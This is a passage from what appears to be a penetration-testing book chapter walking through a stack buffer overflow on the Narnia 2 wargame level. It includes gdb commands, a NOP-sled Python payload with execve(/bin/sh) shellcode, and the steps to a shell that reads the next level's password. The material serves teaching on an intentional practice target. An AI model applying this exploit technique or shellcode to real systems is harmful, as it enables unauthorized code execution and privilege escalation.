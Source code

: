 We were able to overwrite EIP with all “B” (or hex equivalent 0x42) characters, which is the pointer
to the code that will be executed next by the processor. If we can point EIP to an area of shellcode,
we can compromise the system. Where might you find shellcode? You can always generate your own
or you can grab shellcode from here:
http://shell-storm.org/shellcode/.
In this example, we are going to use Linux/x86 - execve(/bin/sh) - 28 bytes. We know our shellcode
is 28 bytes and our payload needs to be 144 bytes in length. I also want to change my A’s to NOPs or
x90, which means if we land on a NOP, it will continue until we hit executable code. After playing
around a little with the space, I created the following:
● cd /narnia
● gdb ./narnia2 -q
● run `python -c 'print "\x90" * 50 +
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0+ "\x90" * 67 + "BBBB"'`
○ Starting program: /games/narnia/narnia2 `python -c 'print "\x90" * 50
+
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53+ "\x90" * 67 + "BBBB"'`
○ Program received signal SIGSEGV, Segmentation fault.
○ 0x42424242 in ?? ()
● (gdb) info registers eip
○ eip 0x42424242 0x42424242
We successfully have control of EIP with our shellcode and NOPs. Now, we need to just drop in
anywhere before our NOPs and we should have a /bin/sh shell. To see what is stored in the memory,
after we seg fault, type:
● x/250x $esp
Scrolling through, you should see something like the following:
NOP Sled
We see our initial NOPs (x90), followed by our shellcode, more NOPs, and lastly, our BBBB. We
need to change our BBBB to an address in our NOP Sled to execute our shellcode. An easy address is
0xffffd850—a stack address which points to our first set of NOPs. Let’s give it a try and don’t forget
Little Endian.
● (gdb) run `python -c 'print "\x90" * 50 +
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0+ "\x90" * 67 + "\x50\xd8\xff\xff"'`
○ Starting program: /games/narnia/narnia2 `python -c 'print "\x90" * 50
+
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53+ "\x90" * 67 + "\x50\xd8\xff\xff"'`
○ process 5823 is executing new program: /bin/dash
● $ cat /etc/narnia_pass/narnia3
○ cat: /etc/narnia_pass/narnia3: Permission denied
We were able to get our shellcode to execute and get our shellcode to run, but for some reason we
couldn’t read the narnia3 password. Let’s try this outside of GDB:
● narnia2@melinda:/narnia$ ./narnia2 `python -c 'print "\x90" * 50 +
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0+ "\x90" * 67 + "\x50\xd8\xff\xff"'`
● $ cat /etc/narnia_pass/narnia3
○ [Answer to Narnia3 Here]
Narnia 2 – Exploit
And there it works! We now have a privileged shell and can read the password for narnia3.
Hopefully, this gives you an initial insight into how buffer overflows work and why they work.
Remember that this was a quick 1000-foot view of binary exploitation. It is now up to you to spend
some time trying some of the other examples.
Summary
What this chapter has tried to do is to help you build a standard platform for testing, make sure you
have a strong foundation of PowerShell, and give you an understanding of the basics of binary
exploitation.
Tools will always change, so it is important to keep your testing platforms up-to-date and patched. I